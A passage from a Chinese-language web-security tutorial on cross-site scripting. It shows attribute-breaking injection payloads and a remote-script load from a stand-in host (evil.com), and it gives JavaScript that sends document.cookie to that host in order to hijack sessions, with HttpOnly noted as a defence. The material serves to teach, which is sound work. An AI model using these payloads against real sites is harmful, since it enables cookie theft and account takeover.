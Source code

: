 输入后，页面代码就成了

<a href=” onlick=alert(/xss/) //’ >testLink </a>

首先用一个单引号闭合掉href的第一个单引号，然后插入一个onclick事件，最后再用注释符//注释掉第二个单引号。 这里为什么需要onclick，是通过on事件触发？

实际上，这里还有另外一种利用方式—除了构造一个新事件外，还可以选择闭合掉< a >标签，并插入一个新的HTML标签。尝试如下输入:

```html
‘><img scr=# onerror=alert(/xss2/) /><‘

//页面代码编程

<a href=”><img scr=# onerror=alert(/xss2/) /><”>testLink</a> // 这里是onerror事件
```

> XSS攻击进阶:

1)初探XSS Payload:

XSS Payload就是JavaScript脚本(还可以是Flash或其他富客户端的脚本)，所以任何Javascript脚本能做到的事情，XSS Payload都能做到。

一个最常见的XSS Payload就是读取浏览器的Cookie对象，从而发起”Cookie劫持”攻击。

Cookie中一般加密保存了当前用户的登录凭证。Cookie如果丢失，往往意味着用户的登录凭证丢失。换句话说，攻击者可以不用通过密码，而直接登录进用户的账户。

如下所示，攻击者先加载一个远程脚本:

```html
http://www.a.com/test.htm?abc=”><script scr=http://www.evil.com/evil.js ></script>
```

真正的XSS Payload现在这个远程脚本中，避免直接在URL的参数里写入大量的JavaScript代码。

在evil.js中，可以通过如下代码窃取Cookie:

```html
var img=document.createElement(“img”);    创建一个img对象

img.src=”http://www.evil.com/log?”+escape(document.cookie);

document.body.appendChild(img);        将img对象插入到节点
```

这段代码在页面中插入了一张看不见的图片，同时把document.cookie对象作为参数发送到远程服务器。

事实上，http: //www .evil.com/log  并不一定要存在，因为这个请求会在远程服务器的Web日志中留下记录。

这样就完成了一个最简单的窃取Cookie的XSS Payload。

黑客可以用这个Cookie直接登录。

防止:Cookie的“HttpOnly”标识可以防止”Cookie劫持”，我们将在稍后的章节中在具体介绍。HttpOnly表明cookie存在于http层面，不能被客户端脚本读取

 2)强大的XSS Payload:
 
cookie劫持并非每次都有效，有的网站会在set-cookie时给关键cookie植入httponly标识，有的网站则会吧cookie与客户端ip绑定

a)网站上的应用，只需要接受HTTP的GET POST请求，即可完成所有操作，那么可以通过javascript构造GET POST请求就可以让应用执行操作。

例如在Sohu上有一篇文章， 想通过XSS删除它，该如何做呢?

假设Sohu博客所在域的某页面存在XSS漏洞，那么通过JavaScript，这个过程如下:
